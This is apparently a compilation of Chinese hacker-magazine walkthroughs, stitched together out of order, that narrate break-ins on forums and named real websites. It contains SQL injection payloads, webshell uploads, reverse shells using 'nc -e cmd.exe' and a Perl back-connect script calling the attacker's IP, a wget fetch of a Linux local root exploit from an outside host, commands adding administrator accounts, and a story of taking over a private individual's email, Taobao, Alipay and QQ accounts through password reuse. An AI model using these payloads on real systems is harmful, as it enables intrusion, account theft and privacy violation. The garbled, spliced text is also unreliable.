少的字符数。当然也可以把提交的数据保存到一个文件里，然后根据它的大小（字节数）来修改 Content-Length 的数值，如图 2。

假设我注册的用户名是 `jiliang`，而管理员的名字是 `jilianghou`，我将 jiliang 改成 `jilianghou%c1`（也就是在管理员用户名的后边加上 ASCII 129-255 的特殊字符）后，就需要在 Content-Length 的数值中加上 6，因为 `jilianghou%c1` 比 `jiliang` 多了六个字节。


大家注意我在图中选中的区域，那就是我们要修改的地方，修改后由于增加了三个字符，所以还需要修改一下 Content-Length。然后直接使用 NC 进行提交就可以得到系统提示注册成功的消息了，如图 3。关于如何使用 NC 进行提交，可能还有一些菜鸟不熟悉，我简单说一下，提交的格式就是“nc IP 端口 <c:\nc.txt>ok.html”，其中的 nc.txt 就是我们修改后的那个数据包文件，而后面的“>ok.html”就是把提交的结果输出到“ok.html”，以方便我们查看，如图 4。


```text
nc IP 端口 <c:\nc.txt>ok.html
```

接下来就是如何利用返回的信息来构造登录了，我利用的是个比较垃圾的方法，如果大家还有别的好方法的话，也希望能够共享出来啊！我们只复制返回的 cookie 里的“49860_winduser=BQU5UFTRAVEGBQMBW1YMBI9TUQEHYgxQVVYEVWJeVfANBg9y”，如图 5。然后修改里面的数据，修改成如图 6 所示的样子，主要是修改两个地方和添加一个设置 cookie 的代码：


```html
<script>
document.cookie = "49860_winduser=BQU5UFTRAVEGBQMBW1YMBI9TUQEHYgxQVVYEVWJeVfANBg9y";
</script>
```

接着就是修改跳转的地址，将原来由“<meta http-equiv="refresh" content="1;url=./index.php">”修改成你想直接跳转的地方，比如“<meta http-equiv="refresh" content="1;url=http://10.1.41.248/phpwind6/index.php">”，最后直接访问这个页面就可以使这个账号登录了。


我再简单说一下修改 cookie 的其它方法，因为上边的方法对于初学者而言可能不是很容易理解。进入相应的页面，然后在 IE 的地址栏输入 `javascript:document.cookie%20=%20"49860_winduser=BQU5UFTRAVEGBQMBW1YMBI9TUQEHYgxQVVYEVWJeVfANBg9y"`，然后回车，再刷新就可以了，如图 7。

这种方法更简单吧，如果不出意外的话，我们就可以登录成功了，如图 8。表面上看我们的权限是很低的：等级是“新手上路”，帖子数量是 0，但是当我们进入 baker 拥有版主权限的页面，就会发现一样拥有了版主的权限，如图 9。


详细的利用方法就介绍完了。个人认为关于 cookie 的利用，并不是很好；如果大家还有更好的方法也请提出来，在网上我也算小菜啊！曾有牛人说版主权限也可以拿到 WEBSHELL，关于这个我倒是没有认真地研究过，如果有谁会的话，别忘了一定要共享给我！


相信看过第四期“千洞之网——动网又出新漏洞”一文的朋友们，都会使用 dvbbs_php2.0_fucker 来拿到动网 PHP2.0 的 WEBSHELL 了吧，不过那个工具不是太好用，今天我再来给大家介绍一款更为简单易用，界面也更漂亮的工具——动网 php2.0 爆密码工具 v2。至于如何查找动网论坛 PHP2.0 的漏洞我就不多说了，在四期的杂志中有详细的介绍。为了加快查找的速度，我选择了使用“网站猎手”，关键字使用的是“powered by dvbbs.php 2.0 ©2000 - 2006”，在“可利用页面或文件”里面输入“boardrule.php?groupboardid=11111111/**/union/**/select/**/version()/**”，如图1。

```text
boardrule.php?groupboardid=11111111/**/union/**/select/**/version()/**
```


然后点出“搜索”，再点“获取网址”，然后再点“下一页”，尽量多找一些网址，这样机会也会更大一些。最后选择“整理网址”，好了，选择“载入网址”来进行检测，不一会儿检测结果就出来了，如图2。不过你也别高兴的太早了，不是检测出来的网址就一定存在漏洞的，我们还要一个个进行访问。

在检测的结果里任意选择一个网址，点右击选择“访问”，如果只出来一个“版规和导读”这几个字，其它的啥也没有，那么就说明这个站点已经修复漏洞了，如图3，我们接着找，直到看到如图4所示的显示，就可以了。

复制这个网址，打开“动网_php2.0_爆密码工具”，在“攻击网址”里粘贴论坛地址“http://www.***.com/bbs/”，然后点“爆前台密码”，好了，成功的爆出了前台用户名和密码。

我们再点“导入 MD5”，接着再点“MD5 解密”，一些相对简单的密码就能马上被破解出来了，从而让我们省去了到 www.cmd5.com 这类网站上去破解了，如图6。再点“爆后台密码”，同样也成功的爆出了后台用户名和密码，再“导入 MD5”，再“MD5 解密”，密码也破解出来了，操作很简单吧，如图6。


怎么样？是不是比 dvbbs_php2.0_fucker 的使用更简明了。既然前后台的用户名和密码都有了，我们就开始拿 webshell 吧，我再简单介绍一下如何在后台拿 SHELL。先在前台登录，用户名 admin，密码 admin888，登录成功了，如图7。然后点“后台管理”，输入用户名 admin，密码 5201314，成功的进入了后台，如图8。


点击“外观风格”，选择“风格界面模板总管理”，新建立一个模板，在中文名称和英文名称随便输入，比如 blackmask，如图9。新建模板成功，再来编辑我们刚才新建的 blackmask 模板，在这里就可以输入 PHP 木马或 PHP 一句话木马了，我直接输入了 PHP 大马的代码，如图10。


最后保存模板，完整路径是“http://www.***.com/bbs/templates/default/blackmask.tpl.php”，赶紧打开看看吧，WEBSHELL 出来了，如图11。看着能不能执行命令，随手输入“netstat -na”，命令成功执行，如图12。


```text
net user
```

奇怪了，“net user”都可以执行，按理说应该可以添加用户的，难道是权限不够吗？先传个 NC 上去，再回一个 SHELL。当在 WEBSHELL 中执行命令，有些回显信息会没有，所以便使用 NC 反弹一个 CMDSHELL，这样看得清楚些。

先在本地使用 NC 监听 8088 端口：“nc -vv -l -p 8088”，再把 NC 传过去，在 SHELL 里执行命令“D:\usr\www\bbs\nc.exe -e cmd.exe 你的 IP 8088”，如图14。成功返回了对方的 CMDSHELL，如图15。现在我们在返回的 CMDSHELL 里执行添加用户命令看看，再次输入“net user hack hack /add”，如图16。


### 一个人的战争


很明显对方启用了密码策略，要求了最小密码长度和密码的复杂性，所以我们只要添加一个复杂点的密码，就可以成功建立用户了（注意：这个密码包括大小写字母、数字以及特殊符号，比如“k86ngFj$”），既然知道了密码规则那么就容易多了，执行命令“net user hack k86ngFj$ /add”来添加用户，再执行命令“net localgroup administrators hack /add”添加 hack 用户到管理员组，这两条命令相信学黑的朋友一定都非常熟悉吧，如图17。最后使用新添加的用户连接3389吧，如图18。
（文章中涉及到的网站猎手2.0、动网_php2.0_爆密码工具、PhpSpy、NC，已经收录在光盘中）


### 一次利用社会工程学的渗透

恨?天

我是做平面设计的，因此免不了经常下载一些素材啥的，于是就找到了**坊，下载了自己需要的东西后，我顺便看了一下整站系统，然后利用默认的数据库地址成功下载了对方的数据库，之后就一直没有管它。这天有时间我看了看，结果却利用社会工程学渗透了一个人的几乎所有账号。

使用明小子的旁注入侵工具的“数据库管理”功能打开下载的数据库，找到会员表，随便选择一个，获得了如下的信息：帐号、密码、性别、提示问题和答案以及电子邮箱，如图1。


现在开始尝试登录淘宝，还是使用密码55*****进行登录，这回提示密码不对，使用生日19810420登录也不对，我又试了几个也都不对，既然猜不出来，那就找回吧，提示问题是他的英文名是什么？我想了一下，使用anuo，不对，使用anuo****，这回成功了，如图4。利用找回的密码登录淘宝后，我看到了他的详细信息，如图5。


打开对方的新浪邮箱，帐号使用anuo****，密码就用那个网站的密码55*****，成功登录了进去，如图2。我在邮箱里看了下，有很多淘宝和支付宝的邮件，还有一封关于花生壳的注册通知邮件，花生壳邮件的正文里有注册帐号，我仍然使用密码55*****成功的登录了，如图3。

原来是做摄影的，怪不得有那么多关于摄影器材的交易。既然已经登录了淘宝，那下面就是支付宝了，密码就用那个网站的密码，竟然成功登录了，想不到对方的账户里还有1533元。好激动呀，这么多的人民币，好在他是大好人，一分钱也没动，做人要厚道嘛^_^


登录了这么多的账号，怎能少了QQ呢？但是目前还不知道他的QQ号，我在百度里搜索了一下他的邮箱，没有搜索结果，然后我又使用用户名 anuo**** 进行搜索，出来了十几条结果，在一个论坛上看到了他的联系方式，有固定电话、手机以及QQ号，如图7。我试了一下好多密码都无法登录他的QQ，看来又得找回来了，唉，真麻烦呀^_^


密码提示问题是“nihaoa”，这不就是**功那个网站的提示问题嘛，答案是“wohenhao”，显示发送了修改密码的通知，如图8、图9。但是我在他的新浪邮箱里等了半天也没有等到修改密码的邮件。


终于又重新找了一遍，可依然没有收到邮件，难道被骗了？难道这是一个邮箱吗？我看了一下他的QQ资料，果然还有一个163邮箱，如图10。使用 anuo**** 的密码 553**** 登录这个163的邮箱，成功登录了进去，看见了腾讯发来的修改密码的邮件，如图11。


### 一个令人惊讶的骗局

看他的资料，原来是清华大学医学系毕业的，想不到学医的居然跑去搞摄影了，性别填的是女，也不知道这资料是真的还是假的，如图13。


至此，他在网上几乎所有的帐号我都已经成功登录过了，可见在多个网站使用同一个帐号及密码所带来的危害是极其严重的，因此给大家提出几点建议：

- 1. 如果不是必须，不必填写你的个人资料，在允许留空的地方留空就行了。
- 2. 如果不是必须，不必填写你的真实资料，如果可以的话，不妨填写一个虚拟的资料。如果你怕以后忘了，可以填写一个固定的虚拟资料，把它保存在一个地方，比如你的邮箱里。
- 3. E-mail、手机号等不要直接发布在公共页面的地方，只要公开了，处于可被搜索引擎抓取的地方，那你可能就身处危险之地了。
- 4. 避免你的昵称和真实身份联系在一起，假如你不想让身边的人知道你网上的身份或者不想让网上的人知道你真实身份的话。
- 5. 谨慎使用“记住密码”的功能，随时清除 cookies。这一点对多人共用计算机更适用。
- 6. 不要一个邮箱通天下，用于注册服务和发送私人邮件的 E-mail 应该分开，这样可以保证最大的安全。
- 7. 不要一个昵称通天下，想想 mop 的人肉搜索吧，如果在多个网站、论坛使用同一个昵称，如果别人需要，可以很容易追踪到。
- 8. 不要一个密码通天下。至少，你使用某一个服务时，你的服务密码和在这个服务里所留的 E-mail 密码不要一样。
- 9. 如果短时间内有大量 QQ 添加你为好友，请拒绝。QQ 密码申诉的条件之一就是知道你好友里的几个号码。
- 10. 对外不要泄露太多的秘密，否则很容易让别人用你的社会工程学的。


#### 我被步步高骗了

前几天，同学新买了一个步步高的电子词典，他说是为了提高英语的学习成绩，方便他随时随地的查询单词才买的。不过，我感觉他是为了能够随时随地的玩游戏才买的。趁着周六休息，我把他的步步高电子词典借过来玩了玩。可是，里面自带的游戏太少了，于是我决定到步步高的官方网站去下载一点游戏回来玩。在 Google 里搜索关键词“步步高”，很快就有了一堆关于步步高的网站，我打开了步步高的官方网站 http://www.gdbbk.com/，网站界面做的很漂亮啊，会不会有漏洞呢？这时，我发现了这么一个链接“http://www.gdbbk.com/productsinfo_jy.asp?id=672&pid=27”（图1）。


一个邪恶的念头浮现在了我的脑子里：为什么不在 URL 后面加一个“1”呢？不知不觉，我就在这个 URL 后加了一个单引号，提交 http://www.gdbbk.com/productsinfo_jy.asp?id=672&pid=27'，返回了“请不要提交非法字符”，看来是做了防注入处理了（图2）。


看来这条路是行不通了，就在这时，我又发现网站上有一个搜索的功能（图3），那么会不会存在搜索型注入呢？于是我在搜索栏里填入“333”，然后点击“搜索”，结果还是不行，搜索这里也有防注入处理，这可怎么办呢？我又想到了旁注，就算找不到网站的漏洞，也许可以从旁站下手……

你没有漏洞，我就不信跟你同一主机的其它网站没有漏洞！打开 http://www.seologs.com/ip-domains.html（我经常使用的一个旁注查询网站），然后输入步步高网站的网址，等待了一会儿，结果出来了（图4）。


服务器上一共有12个站点，一个个地来尝试，在我尝试到 http://finish.whir.net.cn 这个网站时，发现了一个注入点“http://finish.whir.net.cn/rollei/2006/newsinfo.asp?id=63”（图5）。把这个注入点扔到HDSI里进行检测，竟然说是SA权限（图6）。

不过别高兴得太早了，因为很有可能并不是SA权限，再说即使是SA权限，如果管理员在 net.exe 和 net1.exe 上做了限制的话，我们还是无法执行命令的。于是我决定先列目录，找到网站的路径后再说，经过N个小时的努力，终于在F盘里找到了这个网站的目录 F:\FinishWeb\rollei\2006，然后就是使用备份数据库的方法拿到了一句话木马的shell（图7）。

我本打算通过它来上传功能更强大的ASP木马的，但是却失败了，无法上传文件，这可怎么办呢？既然这里上传不了文件，那么我就去你的后台上传一个后缀为jpg的文件，然后再通过一句话木马，把后缀为JPG的文件重命名为ASP的文件，这样就可以得到webshell了。我随便对着一个新闻里的图片点击鼠标右键，选择“属性”来查看这个图片的网址，发现是 http://finish.whir.net.cn/rollei/2006/back/Upload/s_2007116223914556670.jpg，我感觉 http://finish.whir.net.cn/rollei/2006/back/ 很有可能就是后台的路径，于是打开那个网址，很幸运，后台呈现在我们的眼前（图8）。


有了后台，密码就好办了，因为是MSSQL注入点，即使经过MD5加密的密码破解不出来，我们也可以通过update语句来更改密码。好在用户名和密码非常简单，全是root。我拿着密码登录后台，在后台选择“产品信息”，然后选择添加，就出现了我们非常熟悉的ewebeditor，我曾尝试ewebeditor默认的登录页面，想从那里拿到webshell，但是默认的登录页面被删除了。不过没有关系，我们上传jpg格式的文件就可以了。我把ASP木马重命名为xx.jpg，然后选择上传。很快就上传成功了，并给出了网址 http://finish.whir.net.cn/rollei/2006/back/eWebEditor/uploadfile/20080309103801763.jpg。但是，当我选择这个网址进入时，却提示说“无法找到该网页”（图9）。


上传竟然没有成功，莫非这个就是传说中的傀儡后台吗（小编注：也有可能是这个网站的上传程序有问题）？这时我考虑到，既然步步高官方网站和这个网站是在同一主机上，那么数据库肯定也是在一起的，又因为是SA权限，那么我通过跨库来找到步步高官方网站的密码也是有可能的。经过努力的寻找与尝试，我终于发现了步步高官方网站的用户名和密码竟然也是root，刚开始我还不相信，当使用root进入的时候，竟然成功了！我选择“产品数据库”，然后选择添加视听产品（图10）。


图10

这时我又发现了ewebeditor，不过登录页面还是被删除了（其实，它跟那个有注入点的网站使用的是同一套程序，只不过版本不同，一个是1.0，一个是2.0），我还是上传了一个被重命名为XXX.JPG的ASP木马，提示上传成功，并给出了网址 http://www.gdbbk.com/back/edit/uploadfile/20080309105455660.jpg。我打开网址，惊喜地发现，这回真的成功了（图11）。


图11

但是问题也随之而来，我并不知道步步高官方网站的绝对路径，只能通过一句话木马慢慢地寻找。最终，我确定E盘的 E:\ServiceWeb\gdbbk 就是步步高官方网站的绝对路径，使用一句话木马的复制功能，在第一行写入图片路径 E:\ServiceWeb\gdbbk\back\edit\uploadfile\20080309105455660.jpg，在第二行写入要复制到的路径，我填的是 E:\ServiceWeb\gdbbk\back\edit\uploadfile\20080309105455660.asp，结果成功了（图12）。


图12

进入webshell，第一个想到的就是利用Serv-U提权，拿着提权工具进行尝试，结果失败了，我又尝试使用FTP版本的Serv-U提权工具，依然失败了。我这时又想到，它不是SA权限吗，我可以通过SA来执行命令啊，直接添加一个管理员帐号不就可以了吗？于是，我在HDSI里尝试执行 net user spookzang spookzang /add 来建立一个用户名和密码都是spookzang的用户，但是执行了半天也没反应，过了一会儿，网站竟然都打不开了，似乎是数据库出问题了！又过了一会儿，服务器重启后，网站才能正常访问。我又尝试使用SQLTools.exe连接上去后执行命令，能够成功地连接上去，但就是不能执行命令，一执行命令，数据库就断开了连接，然后网站打不开了，服务器重启，莫非这真是传说中的RP问题吗？

我又想到通过SA注入点把一个VBS下载者写上去，然后通过SA来执行这个VBS。拿出啊D注入工具，选择配置好的VBS脚本文件，把它重命名为XXX.TXT，然后在目标位置输入 C:\3.VBS（这里就是服务器的路径），经过漫长的等待，提示说“内容写入结束，祝您好运！”，我尝试使用SA执行，可是执行了半天也没反应，我又到webshell里查看，发现对方服务器上安装了卡巴斯基，把我上传的文件给删除了。


图13


图14

这时，我跟Maxil讨论了一下，并在网上搜索了一下相关的 WScript.Shell，发现仿心的鱼曾经写过一篇关于 SQL Server 执行 DOS 命令的文章。文章说：虽然 xp_cmdshell 不能够使用，但是我们还可以使用 sp_OACreate，它也是能执行 DOS 命令的。而且仿心的鱼也给出了这句话：

```sql
DECLARE @shell INT EXEC sp_OACreate 'wscript.shell', @shell OUTPUT EXEC sp_OAMethod @shell, 'run', null, 'C:\WINDOWS\system32\cmd.exe /c net user spookzang spookzang /add'
```

这句话的意思就是建立一个用户名和密码都是spookzang的用户，大家可以把spookzang替换成自己喜欢的用户名。我立即使用网页版的SQL连接器连上，然后执行命令（图13），成功了！再来执行

```sql
DECLARE @shell INT EXEC sp_OACreate 'wscript.shell', @shell OUTPUT EXEC sp_OAMethod @shell, 'run', null, 'C:\WINDOWS\system32\cmd.exe /c net localgroup administrators spookzang /add'
```

就是把spookzang提升成为管理员，最后我使用新添加的用户成功地连接上了（图14）。

本次入侵之所以能够成功，甚至于最后拿到了服务器的管理员权限，主要归功于那个SA的注入点。而且，在这次入侵的过程中，多次受阻，可谓是一波三折，但是好在我没有放弃，因为某人曾经说过：最艰苦的时候，往往就是由失败走向胜利的转折点。最后希望我的这篇文章能对大家有所帮助，如果对本文有什么不明白的地方，欢迎到X的论坛发帖询问。

#### 一、PHP旁注

经过测试，其他两个ASP系统的注入点同样是public权限，所以只能从PHP站点入手。我查找出了一个注入点，提交 `http://www.testPhp.gov.cn/news_detail.php?nid=3031`，结果发现了网站的路径 `D:\www.testPhp.gov.cn\`（图3），通过这个路径可以推测一下目标站点的路径是 `D:\www.testAsp.com\`，而这个猜测判断是存在的。

```text
http://www.testPhp.gov.cn/news_detail.php?nid=3031

1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,14,15

http://www.testPhp.gov.cn/news_detail.php?nid=3031 order by 15
http://www.testPhp.gov.cn/news_detail.php?nid=3031 order by 16
```

当提交到16的时候出现了如上图所示的错误，确定列名数量是15。继续提交 `http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,load_file('c:/boot.ini'),15`，出来了系统版本信息（图4）。

魔术引号是PHP环境中的magic_quote设置为on时，所有的单引号、双引号、反斜线和NULL字符都会被自动加上一个反斜线进行转义。但是只要把load的内容转换成16进制就可以绕开转义了。

```text
http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,load_file(0x633A5C626F6F742E696E69),15
```

#### 二、信息收集

通过扫描得知目标服务器开放了21和80两个端口，而目标站点采用的是ASP的整站程序，在 www.114best.com 网站查询发现服务器上绑定了4个域名（图1），确定了服务器是个虚拟主机，其中三个是与目标站类似的ASP整站系统，而另外一个则是PHP架构的网站。

先从目标网站入手，随便点开一个链接，开始测试是否存在注入漏洞。提交 `http://www.testAsp.com/gb/action_detail.asp?nid=90`，立刻弹出了错误提示，我们试着把“i”换成“%69”，继续提交 `http://www.testAsp.com/gb/action_detail.asp?n%69d=90 and 1=1` 以及 `http://www.testAsp.com/gb/action_detail.asp?n%69d=90 and 1=2`，确认存在注入漏洞。这个主要是因为防注入代码过滤不严造成的，只对“nid”进行了过滤，我们只要把“nid”转换一下格式就能够成功绕过防注入系统了。

把 `http://www.testAsp.com/gb/action_detail.asp?n%69d=90` 这个网址放到NBSI里进行检测，发现注入点权限是public（图2），而利用NBSI暴管理员字典的时候也出现了错误，暂时用途不大。通过跨库发现数据库有很多，可以猜测该服务器绑定的域名不只是有4个。


##### 一、个人聊天室

试验成功了我们就可以去 load 其它路径的文件了，首先使用 D 盘做路径，load 了一个目标站的 ASP 文件，发现目标站并不存在 D 盘下，而使用桂林老兵的 WebTools 对 PHP 站点进行路径扫描后也没有发现后台，穷举一时也陷入了困境，陷入了即使拿到管理员密码也没有后台登录的局面。


#### 三、新的缺口

无奈之下只能靠猜路径了，要得到网站位置和结构，最好的方法无疑是去 load Serv-U 的配置文件，我从 C 盘开始试“C:\Program Files\Serv-U\ServUDaemon.ini”、“C:\Serv-U\ServUDaemon.ini”，结果试到 D 盘的时候 load 出了配置文件（图5），路径是：“D:\Serv-U\ServUDaemon.ini”。


配置文件里几乎包含了所有站点的后台和数据库目录，后台路径是 /maintain/，而目标站点的路径原来是 C:\www\www.testAsp.com，有了后台地址就可以暴管理员的密码了，点开管理员登录页面查看源码，通过 action 找到验证登录的 PHP 文件，代码为 `<FORM name=f1 action=loginadmin.php method=post>`，只要 load 出 loginadmin.php 就可以知道管理员表、用户列名和密码列名，从而可以避免繁琐的猜测了，最后得到了以下关键代码。

```php
$uname=$HTTP_POST_VARS['user'];
$upass=md5($HTTP_POST_VARS['password']);
$sql="select uid,uname,uadmin,utpname,upermit from radmintab where uname='$uname' and upass='$upass'";
```

首先使用 D 盘的 ASP 文件进行测试。

顺利拿到用户列 uname，密码列 upass 和管理员表 admintab，通过代码可以看到密码是经过 md5 加密的，但是仍然可以碰下运气。

接着就可以暴密码了，提交 `http://www.testPhp.gov.cn/news_detail.php?nid=3031 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11,12,13,concat(uname,0x7c,upass),15 from admintab`，得到了管理员的帐号和密码（图6）。


在 www.cmd5.com 里查询得出的密码明文是 1234，顺利登录进了后台。


```php
<tr>
<td height="305" valign="top"><?php
$username = "vicente";
$password = "7092xx";
$style[1] = 'gray||gray||office||...';
$style[2] = ...;
?>
```

#### 四、跨目录传Webshell

继续在后台里寻找能够利用的地方时，我发现增加资料模块调用的是 PHP 版的 eWebEditor（图7），于是就下载了一套 PHP 版的 eWebEditor 回来分析，结果发现 PHP 版的登录帐户和密码是明文保存在 /php/config.php 里的，所以只要 load 出这个配置文件，就可以登录进去了（图8）。关于 ASP 版的 eWebEditor 拿 webshell 的方法大家都十分熟悉了，而 PHP 版使用的同样也是在样式里添加后门格式的办法，限于篇幅这里就不做详细说明了。


最后成功得到了一个 phpshell，因为我们的目标站是在 E 盘，而服务器配置限制了目录跳转，所以这时还能利用的是权限较高的 MySQL 了，在 phpMyAdmin 目录里的 config.inc.php 里找到了数据库连接代码，内容如下。

```php
$cfg['Servers'][$i]['host'] = 'localhost';
$cfg['Servers'][$i]['extension'] = 'mysql';
$cfg['Servers'][$i]['port'] = 3306;
$cfg['Servers'][$i]['connect_type'] = 'tcp';
$cfg['Servers'][$i]['compress'] = false;
$cfg['Servers'][$i]['controluser'] = 'root';
$cfg['Servers'][$i]['controlpass'] = '';
```

在 PhpSpy 里有 MySQL Manager 功能，首先使用 root 用户和空密码连接上 MySQL，然后再利用 MySQL 的输出功能来导出一个 aspshell 到目标站点，连接后选择一个数据库，然后依次执行以下 SQL 语句：

```sql
create table x(cmd text)
insert into x values(0x3C256576616C2827265F175653737428226012229253E20)
select * from x
select * from x into outfile 'e:/www/www.testAsp.com/sand.asp'
```

插入经过 16 进制转换的 ASP 一句话木马；select * from x 查询写入内容（图9）；select * from x into outfile 导出一句话木马到目标站点。

最后成功得到目标站点的控制权（图10）。（文章中涉及到的 NBSI3.0、海阳顶端 ASP 木马 2006，已经收录在光盘中。）


最近看自己的效果还算不错，便满足了自己很多要求，其中就有提供机会和时间阅读 BBSXP 的代码。我觉得在漫长的代码中寻找漏洞是一件很快乐的事，尤其是在学了几个小时的高数之后，那更是一种享受！不信？那各位就去试试吧！

#### 三、MSSQL篇

经过2月23日的那次重大更新，过滤函数威力大增，比如过滤空格、“(”、“)”等，大家都知道，BBSXP 有个全局的变量 `TablePrefix`，这是个表名前缀，它的尾部一般就是“_”，不信的话大家可以去看看数据库，所有的表名前都有“_”。仅仅是这个过滤就断了我们操纵数据库的想法（我水平比较菜呀！），这种方法倒也给本人管理网站编写防注入函数提供了一个极好的思路。

面对这样的防注入函数该怎么办呢？被这样的防注入函数过滤的变量一定不会参与直接的查询，返回时被过滤引号闭合。那么漏洞会出现在哪里呢？聪明的朋友可能已经想到了，那就是上文所说的不经过过滤函数检查类型，也不检查长度。那就有的程序员 GG 真的是疏忽大意而忘记了检查其长度。

```asp
<%
if CookieUserName="" then error("您还未登录")
Href="javascript:BBSXP_Modal.Open('Login.asp',380,170);"
%>
```

在这样一个大体的检查过滤思想下，BBSXP 对于变量的过滤还是很严格的。那么又有哪些地方可能会出现问题呢？我认为可以分成三类，一类是经过滤函数 HtmlEncode 过滤的字符串变量，其在参与数据库查询或更新操作时没有使用单引号“'”闭合；另一类则是 request 进来未经过滤函数检查的类型，没用其检查长度，导致可以精心构造语句而做到本不可以做到的事情。

- request 进来的数字型
- 经过滤函数 HtmlEncode 过滤的字符串型
- 不经过滤函数检查类型，但使用 len(str) 检查长度


### 一个人的战争

```asp
登录 /a>论坛

<%
ThreadID=Request("ThreadID")
If Not IsNumeric(ThreadID) then
    ThreadIDArray=Array_Split(ThreadID)
    If IsArray(ThreadIDArray) then
        For i=0 to Ubound(ThreadIDArray)
            If Execute("Select ThreadID from [&TablePrefix&'Threads] where ThreadID='"&ThreadIDArray(i)&"'") then
                ThreadIDSQ=Int(ThreadIDArray(0))
            else
                error("参数错误")
            end if
        Next
    Else
        ThreadIDSQ=Int(ThreadID)
    End If
Else
    ThreadIDSQ=Execute("Select ForumID from [&TablePrefix&'Threads'] where ThreadID='"&ThreadID&"'")
End If
%>
```

先执行了查询，后判断了权限，导致了普通用户就可以进行 SQL 注入。我们构造 http://www.target.com/movethread.asp?ThreadID=1,1 这样的 URL 进行提交，返回了出错信息。

```text
Microsoft JET Database Engine 错误 '80040e14'
字符串的语法错误 在查询表达式 'ThreadID=1' 中。
/BBSXP_Class.asp 行 5
```

我测试时的提示为：

```text
Microsoft OLE DB Provider for SQL Server 错误 '80040e14'
字符串中有未闭合的引号。
/wwwroot/bbsxp/BBSXP_Class.asp 行 5
```

暂且认为出现了这两种情况就说明漏洞是存在的。由于该参数可以说是没有经过任何过滤便带入查询，使得漏洞的利用极其简单，半分钟便能把自己提升为管理员。

我们提交 `http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1,1 update bbsxp_users set UserRoleID=1 where Username='joy'`，这返回了如图 2 所示的信息，如果你测试的网站返回了类似正确的信息，那么恭喜你，你已经是管理员了，如图 2！我们刷新一下，来看一下前后的对比，分别如图 3 和图 4 所示。


直接点击上图红框的管理，登录后台，在主机环境变量里得到了网站的物理路径，如图 5。视情况的不同可以分成绝对路径和相对路径两种，相对路径则需要列目录来得到绝对路径，得到绝对路径后就可以直接备份小马了，依次提交下面的语句：

```
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1
alter database bbsxp2008 set RECOVERY FULL
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1
create table cmd (image) backup to bbsxp2008_log with init
```

#### 一、体验数据库

```
http://127.0.0.1:800/bbsxp/MoveThread.asp?ThreadID=1

[insert into cmd(a) values('...')]

backup='d:\wwwroot\joy'
```

其中“C:\wwwroot\”为网站的绝对路径，如果对磁盘比较麻烦的话，可以直接使用 GetWebShell，“数据库”就填写 BBSXP 安装时默认的 bbsxp2008，选择数字型，否则会提示未闭合单引号，然后一步步地来，第三步的时候可能会提示未登录，我们登录即可，如图6。

耐心点等页面加载完后看看是否出错，如果返回如图7所示的页面时就说明本次提交是成功的，我在本地测试，打开 d:\bakup\，确实得到了小马，如图8。至于有了小马，接下来的传大马提权之类的就由大家各自发挥吧！


### 一个人的黑客

好了，下面看我如何在工具里实现跨库查询数据，切换到 pangolin 的“Informations”选项，选择所有，点击“GO”，就能得到一些数据库的信息了，在最下面列出了 mysql 所有的数据库，在这里我们看到了“gjwhjl”数据库，选中“gjwhjl”，点击上面的“Use this database”，就把数据库切换到“gjwhjl”了，如图 8。


然后重复上面所介绍的猜解数据的方法再次猜数据，得到了管理员用户名和密码，如图 9。使用得到的密码登录后台，这个后台有可以上传的地方，如图 10，图 11。得到上传的地址，我可爱的 C99 木马已经在那里等着了，如图 12。才 5G 的硬盘，好瘦弱的一只小鸡啊，瘦归瘦但好歹也是一台 Linux 系统的肉鸡呀！


把我的 cb.pl 上传到 /tmp 目录下，默认 /tmp 目录的权限是所有人可写可执行的。cb.pl 是使用 perl 编写的一个反弹连接的后门，可以让服务器连接我们本地监听的端口并得到一个 SHELL。首先在本地执行 `nc -vv -l -p 12345` 来监听 12345 端口，然后在 WEBSHELL 里执行 `cd /tmp`，`perl cb.pl 222.65.44.88 12345`，其中 222.65.44.88 是我自己的 IP 地址，如果成功的话本地的 NC 窗口就会有反映，如图 14。这样我就得到了一个远程的 SHELL，剩下的事情就要在这里面完成了。


本来入侵到这里就可以结束了，可是好多朋友都会问得到 WEBSHELL 有什么用，怎么才能把这个 SHELL 变成自己的肉鸡，然后在上面建个 CS 服务器，就可以自由的拌菜了。当然，想完全控制这台机器，使用 WEBSHELL 是远远不够的，我们不妨得到管理员权限。在 Linux 系统的入侵中，我就为大家介绍一下最经典也是最常用的利用本地溢出脚本提升权限。在 C99 的“Command execute”里执行 id 和“uname -a”，也就是查询当前用户的 ID 和用户组 ID 以及 Linux 系统版本信息，如图 13，可以得知内核版本为 2.6.18。为了方便操作，我们还得先反弹回本地一个 SHELL。


接下来我们要寻找一个本地溢出漏洞的利用代码，我在 milw0rm.com 上找到了“Linux Kernel 2.6.17 - 2.6.24.1 vmsplice Local Root Exploit”，这个内核漏洞比较普遍，大部分 Linux 系统都可以被成功溢出的。先把代码保存为 vmsplice.c，然后上传到我们自己的空间上，例如我上传后的地址为 http://125.67.67.209/vmsplice.c，在刚才得到的本地 SHELL 窗口中执行 `wget http://125.67.67.209/vmsplice.c -P /tmp`，如图 15，显示传输成功。


其中的 a16b4c49ff4fd45d 就是管理员 admin 的密码了，如图8。是经过 md5 加密的，我们可以把密码放到在线 md5 查询网站上去查询，遗憾的是我没有查询出来。现在只好使用最后的方法，修改管理员密码为1。


在下拉列表中选择最后一个选项，也就是“改管理员密码为1”，得到了如下的回显：

```html
<select name="NoName_Sys" id="NoName_Sys">
<option value="">不限制</option>
<option value="dbo">dbo</option>
</select>
```

我们再来查一遍管理员的密码，会发现密码已经成了 a0b923820dcc509a，如图9。这个密码散列也就是1了。好了，有了密码，我们就可以进行登录了。


因为风讯的管理后台是在安装的时候设定的，所以我们碰到 admin 默认后台的可能性并不大。但即使我们无法登录后台，也还是有别的方法来搞定的。为了避免被管理员发现，我们先把管理员的密码改回去，注入语句是：


```
EquValue=1&ReqSql=select user;
update FS_MF_ADMIN set ADMIN_pass_word='a16b4c49ff4fd45d' where id=1
